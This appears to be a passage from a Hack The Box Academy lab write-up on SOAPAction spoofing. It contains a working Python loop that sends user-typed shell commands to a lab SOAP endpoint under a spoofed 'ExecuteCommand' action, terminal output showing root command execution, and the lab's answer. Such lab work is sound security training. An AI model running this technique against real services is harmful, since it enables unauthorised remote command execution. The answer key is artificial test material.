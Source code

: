 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 client_soapaction_spoofing.py

b'<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">
<soap:Body>
<LoginResponse xmlns="http://tempuri.org/">
<success>true</success>
<result>root\n</result>
</LoginResponse>
</soap:Body>
</soap:Envelope>'
```

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://10.129.181.45:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-2tezvnuuiw]─[~]
└──╼ [★]$ python3 automate.py

$ whoami
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'

$ uname -m
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>x86_64\n</result></LoginResponse></soap:Body></soap:Envelope>'
```

**Answer**

```
x86_64
```

## Command Injection
